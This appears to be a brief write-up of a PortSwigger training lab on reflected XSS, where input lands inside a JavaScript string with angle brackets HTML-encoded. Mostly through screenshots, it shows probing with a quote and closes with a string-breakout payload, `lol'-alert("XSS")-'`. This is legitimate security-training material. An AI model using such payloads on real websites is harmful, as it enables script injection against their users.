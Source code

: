 # Reflected XSS into a JavaScript string with angle brackets HTML encoded

Lab URL :- `https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded`

![image](https://user-images.githubusercontent.com/60841283/182375480-2ebc8cd7-389e-4d56-8555-fdfdbcc43ff9.png)

Normal Search query :- `lol`

![image](https://user-images.githubusercontent.com/60841283/182375656-96c2b7e6-6c8f-4470-a546-e659ad6ce585.png)

Using `'` symbol :- 

![image](https://user-images.githubusercontent.com/60841283/182385052-255ee15d-8a17-4e9c-af2b-41567c206b48.png)

Payload in Burp :- `lol'-alert("XSS")-'`

![image](https://user-images.githubusercontent.com/60841283/182375262-6786ebb7-457f-4252-b3d3-878308472912.png)
